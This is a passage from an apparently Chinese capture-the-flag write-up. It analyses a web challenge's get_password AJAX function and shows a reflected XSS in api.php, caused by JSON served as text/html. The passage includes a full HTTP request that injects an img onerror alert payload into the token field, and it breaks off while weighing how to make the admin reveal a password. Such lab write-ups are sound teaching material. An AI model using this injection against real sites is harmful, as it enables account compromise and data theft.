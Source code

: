需要点击一下。

研究get_password函数.

```html
  <script src="/static/$uper$ecret@dmin.js"></script>  <script>
    var csrf_token = "7aacf6d79272b6349a8bd687a5e4f4f3";
```

发现get_password来源一个奇怪的js

```js
function get_password(username) {
	$.ajax({
		type: "POST",
		url: "/api.php",
		data: {"token":csrf_token,"action":"get_password","username":username},
		dataType: "json",
		success:function (data) {
			if (data["error"] === '')
			{
				$("#" + username).text(data["result"]);
			}
			else
				alert('Error: ' + data["error"]);
        }
	});
}

```

进一步分析，发现api.php存在反射性xss漏洞

```http
POST /api.php HTTP/1.1
Host: ctf.momomoxiaoxi.com
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.13; rv:55.0) Gecko/20100101 Firefox/55.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Content-Type: application/x-www-form-urlencoded
Content-Length: 103
Cookie: PHPSESSID=86gb25qq39f301g3j59afadbi0
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1

token=d096148ee0d3cf1<img src=x onerror='alert(1)'>d4478b1b79785f81a&action=get_password&username=admin
```

XSS的主要原因是对方将json数据以`test/html`格式返回了。（这个在现实中很多服务都有这样的误配置）

json会将`/`转义。

当下，我们有一个XSS，但是没办法CSRF（因为没办法窃取token），同时我们还能控制admin访问一个页面。

那么，我们现在就没办法控制admin完成点击显示密码的功能。那下一步该如何做呢？

